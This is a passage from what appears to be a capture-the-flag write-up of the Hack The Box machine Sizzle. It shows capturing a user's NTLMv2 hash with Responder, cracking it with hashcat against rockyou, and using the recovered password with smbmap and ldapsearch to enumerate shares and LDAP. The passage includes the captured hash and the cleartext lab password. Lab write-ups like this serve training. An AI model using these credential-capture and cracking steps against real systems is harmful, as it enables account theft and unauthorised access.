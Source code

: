Start **Responder** and then upload that file to **C:\Users\Public**:
```markdown
responder -I tun0
```

After waiting for a while we get a response back from the user _amanda_ and her hash:
```markdown
[SMB] NTLMv2-SSP Client   : 10.10.10.103
[SMB] NTLMv2-SSP Username : HTB\amanda
[SMB] NTLMv2-SSP Hash     : amanda::HTB:b2b4d4963b3d164a:89D8272C0215903365A2CF72327C5F6A:0101000000000000C0653150DE09D2014CB331DE3128B7C2000000000200080053004D004200330001001E00570049004E002D00500052004
800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C0005001400
53004D00420033002E006C006F00630061006C0007000800C0653150DE09D20106000400020000000800300030000000000000000100000000200000ADADF1C95E1BD9795395E1D1CC5818E9BFFAD50666BD7762FDC1BACAFA5E37EB0A00100000000000000
00000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E003600000000000000000000000000
```

Cracking the hash with **hashcat**
```markdown
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```

The cracked password is:
> Ashare1972

### Checking SMB with authentication

Lets see if we have more access on the SMB shares:
```markdown
smbmap -u amanda -d htb.local -p 'Ashare1972' -H 10.10.10.103
```
```markdown
Disk                           Permissions
----                           -----------
ADMIN$                         NO ACCESS
C$                             NO ACCESS
CertEnroll                     READ ONLY
Department Shares              READ ONLY
IPC$                           READ ONLY
NETLOGON                       READ ONLY
Operations                     NO ACCESS
SYSVOL                         READ ONLY
```

Now we additionally have read access on _CertEnroll_, _NETLOGON_ and _SYSVOL_.

## Checking LDAP with authentication

Lets get some information from LDAP with the user authentication:
```markdown
ldapsearch -x -h sizzle.htb.local -D 'amanda@HTB.local' -w 'Ashare1972' -b 'DC=HTB,DC=LOCAL'
```
